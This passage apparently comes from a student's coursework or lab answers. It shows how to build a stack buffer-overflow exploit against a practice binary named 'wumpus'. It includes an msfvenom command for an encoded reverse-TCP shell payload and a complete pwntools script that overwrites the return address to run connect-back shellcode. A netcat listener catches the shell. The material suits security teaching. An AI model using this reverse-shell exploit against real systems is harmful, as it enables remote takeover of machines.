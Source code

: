 Therefore, when generating our shellcode, we ensured it avoided the characters `\x00`, `\x0a`, and `\x0d`.
### Question 8d

Here we can use a reverse shell as our payload. The following `msfvenom` command creates a reverse shell payload avoiding any identified bad characters.

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.37 LPORT=4444 -f python -e x86/shikata_ga_nai -b “\x0a\x0d\x00”
```
### Question 8e

A buffer overflow exploit would include the exact buffer size to reach EIP, an address pointing to a JMP ESP instruction to control execution flow, a NOP sled to handle memory variances, and the shellcode payload. The complete script would need specific memory addresses determined through debugging.

Here we can use `pwntools` to integrate with `python` and make our lives easier
```bash
pip install pwntools --break-system-packages
```

```python
from pwn import *

# Set the context for pwntools (architecture, OS)
context.arch = 'i386'
context.os = 'linux'

sh = asm(shellcraft.i386.linux.connect("0.0.0.0", 4444) +
         shellcraft.i386.linux.dupsh('edx'))

log.info(f"Shellcode length: {len(sh)} bytes")

padding_len = 369 - len(sh)
if padding_len < 0:
    log.error("Shellcode is longer than the available space before Saved EBP!")
    exit(1)
padding = b'A' * padding_len

saved_ebp = b'B' * 4

return_address = p32(0xb7c080ad) # Pack the address for i386 little-endian

extra_bytes = b"\xff\xe0" # jmp eax instruction

# Combine all parts into the final payload
payload = sh + padding + saved_ebp + return_address + extra_bytes

log.info(f"Total payload length: {len(payload)} bytes")
try:
    target_binary = './wumpus'
    p = process(target_binary)
except FileNotFoundError:
    log.error(f"Target binary '{target_binary}' not found.")
    exit(1)

log.info("Sending the payload...")
p.sendline(payload)


log.success("Payload sent! If exploit worked, a shell should connect back.")
log.info("Run 'nc -lvnp 4444' in another terminal to catch the shell.")

```